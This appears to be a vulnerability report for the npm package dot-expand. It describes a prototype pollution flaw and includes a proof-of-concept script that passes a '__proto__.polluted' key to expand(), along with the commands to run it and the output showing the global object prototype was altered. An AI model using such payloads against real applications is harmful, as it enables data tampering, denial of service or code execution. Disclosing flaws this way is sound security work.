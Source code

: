 # Description

`dot-expand` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { expand } = require('dot-expand')

console.log('Before: ', {}.polluted)
expand({'__proto__.polluted': true})
console.log('After: ', {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i dot-expand # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

